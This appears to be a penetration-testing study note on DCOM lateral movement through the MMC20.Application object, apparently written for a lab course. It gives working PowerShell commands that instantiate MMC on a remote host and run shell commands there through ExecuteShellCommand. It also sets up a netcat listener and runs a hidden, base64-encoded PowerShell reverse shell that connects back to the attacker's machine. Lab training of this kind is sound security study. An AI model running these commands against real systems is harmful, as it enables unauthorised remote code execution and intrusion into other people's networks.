 ### DCOM

DCOM (*Distributed Component Object Model*)
- COM
	- System for creating software components that interact with each other
	- COM was created for either same-process or cross-process interaction
	- Extended to DCOM for interaction between multiple computers over a network
- Interaction with DCOM is performed over RPC on TCP port 135
	- [Local administrator] access is required to call the DCOM Service Control Manager
		- (API)
- DCOM lateral movement techniques
	- Cybereason
		- https://www.cybereason.com/blog/dcom-lateral-movement-techniques

Example:
- *Microsoft Management Console* (MMC) COM application
	- Employed for scripted automation of Windows systems.
- MMC Application Class allows the creation of *Application Objects*
	- Exposes the ExecuteShellCommand method under the Document.ActiveView property
		- [Allows the execution of any shell command as long as the authenticated user is authorized (i.e. local admin)]
- Set up:
	-  jen user logged in from the already compromised Windows 11 CLIENT74 host.
	
- Start:
	- From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the GetTypeFromProgID method.
		- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.218.72"))`
	- Once the application object is saved into the *$dcom* variable, we can pass the required argument to the application via the **ExecuteShellCommand** method. The method accepts four parameters: **Command**, **Directory**, **Parameters**, and **WindowState**. We're only interested in the first and third parameters, which will be populated with **cmd** and **/c calc**.
		- `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`
	- Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app.
	- Because it's within Session 0, we can verify the calculator app is running with **tasklist** and filtering out the output with **findstr**.
		- `tasklist | findstr "calc"`
	- Start listener on Kali
		- `nv -lvnp 443`
	- Replace our DCOM payload with the base64 encoded reverse shell with from Python script from *WMI and WinRM* section.
		- ```$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")```
	- verify on kali
		- `whoami`
		- `hostname`

# Active Directory Persistence
		- [Note]: in many real-world penetration tests or red-team engagements, persistence is not part of the scope due to the risk of incomplete removal once the assessment is complete.
